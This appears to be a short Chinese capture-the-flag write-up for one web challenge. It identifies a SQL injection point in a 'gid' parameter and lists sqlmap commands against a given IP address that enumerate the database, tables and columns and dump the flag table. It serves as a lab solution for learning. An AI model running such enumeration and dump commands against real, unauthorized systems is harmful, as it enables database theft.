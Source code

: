 ## 1. 土肥原贤二

![图 2](2.png)

显然这里可以查询数据库，考虑 SQL 注入攻击。输入 1 查询后发现 payload 可以构造为 `gid=1`，然后 Kali 下运行 sqlmap 可以直接得到 flag。

```shell
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' --current-db
# current database: luozhen
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen --tables
# tables in database luozhen: flag, good
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag --columns
# columns in table flag: flag, id
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag -C flag,id --dump
```
